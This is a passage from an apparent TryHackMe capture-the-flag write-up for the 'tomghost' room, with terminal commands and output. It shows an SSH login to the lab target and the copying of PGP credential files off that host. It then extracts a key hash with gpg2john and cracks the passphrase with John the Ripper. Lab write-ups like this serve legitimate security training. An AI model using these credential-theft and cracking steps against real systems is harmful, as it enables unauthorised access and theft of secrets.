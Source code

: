 ```
$ ssh skyfuck@10.10.106.51
The authenticity of host '10.10.106.51 (10.10.106.51)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.106.51' (ED25519) to the list of known hosts.
skyfuck@10.10.106.51's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ 
```

Let's look around for useful files.

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

We need to copy these files to our local machine. We can do this using `scp`.

```
$ scp skyfuck@10.10.106.51:/home/skyfuck/* /home/kunal/tryhackme/tomghost/.
skyfuck@10.10.106.51's password: 
credential.pgp                                                                                                                                                                                            100%  394     1.4KB/s   00:00    
tryhackme.asc  
```

Now using `gpg2john`, we can find the hash of the `tryhackme.asc` file.

```
$ gpg2john tryhackme.asc > asc_hash.txt

File tryhackme.asc
```

Let's now use John the Ripper to find the password.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt asc_hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2023-11-13 20:44) 1.694g/s 1820p/s 1820c/s 1820C/s alexandru..trisha
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

